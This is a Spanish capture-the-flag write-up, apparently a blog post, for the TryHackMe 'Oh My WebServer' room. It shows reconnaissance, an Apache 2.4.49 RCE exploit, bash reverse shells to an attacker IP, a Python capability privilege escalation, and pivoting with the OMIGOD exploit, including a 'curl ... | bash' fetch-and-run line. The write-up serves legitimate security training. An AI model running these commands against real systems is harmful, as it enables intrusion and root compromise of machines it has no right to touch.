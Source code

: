 ```yaml
---
title: "Oh My WebServer"
description: "Oh My WebServer"
pubDate: 2025-05-20
---
```


**https**://tryhackme.com/r/room/ohmyweb

# Fase de reconocimiento

## Buscamos puertos abiertos

````
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.146.85
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240520013051.png)

## Reconocimiento de servicios

````
nmap -sCV -p22,80 10.10.146.85
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240520013248.png)

## Fuzzing

````
dirb http://10.10.146.85
````

Wappalyzer
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240520015826.png)

## Buscar vulnerabilidades

````
searchsploit apache 2.4.49
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240520020117.png)
Encontramos un RCE

# Fase de ataque

## RCE

1. Usamos el exploit

````
searchsploit -m multiple/webapps/50383.sh
````

2. Nos ponemos en escucha por el puerto 443

````
nc -nlvp 443
````

3. Mandamos la Reverse Shell

````
./exploit.sh http /bin/bash bash -i >& /dev/tcp/10.9.0.14/443 0>&1
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240520020929.png)
\[-\] ==pwned!==

## Ajustar terminal

````
script /dev/null -c bash
````

ctrl + z

````
stty raw -echo; fg
````

````
	reset xterm
````

````
export TERM=xterm
````

````
stty rows 44 columns 184
````

Parece que estamos dentro de un Docker

# Privilege Escalation

## Docker

Encontramos un python con capabilities activadas

````
getcap -r / 2>/dev/null
````

Buscamos en en [gtfobins.](https://gtfobins.github.io/gtfobins/python/) Capabilities

````
python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240520022755.png)
\[-\] ==pwned!==
Para volver a bash normal

````
/bin/bash -p 
````

## Pivoting

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240520025931.png)
Movemos nmap al docker

1. Nos descargamos el nmap
   https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap
1. Abrimos un servidor HTTP para compartir el archivo

````
python3 -m http.server 80
````

3. Desde la maquina victima lo descargamos

````
curl -v http://10.9.0.14/nmap -o nmap
````

4. Lo volvemos ejecutable

````
chmod +x ./nmap
````

5. Host Discovery
5. Miramos los puertos abiertos

````
./nmap -p- --min-rate 5000 172.17.0.1
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240520032307.png)
Los puertos 5985 y 5986 tiene un CVE de RCE as root

1. Nos descargamos el exploit

````
git clone https://github.com/horizon3ai/CVE-2021-38647
````

2. Abrimos un servidor HTTP para compartir el archivo

````
python3 -m http.server 80
````

3. Desde la maquina victima lo descargamos

````
curl -v http://10.9.0.14/omigod.py -o omigod.py
````

5. Nos ponemos en escucha por el puerto 1111

````
nc -nlvp 1111
````

6. Mandamos la Reverse Shell

````
echo 'bash -i >& /dev/tcp/10.9.0.14/1111 0>&1' > shell.sh
python3 -m http.server 80

python3 omigod.py -t 172.17.0.1 -c 'curl http://10.9.0.14/shell.sh | bash'
````

\[+\] ==pwned!==
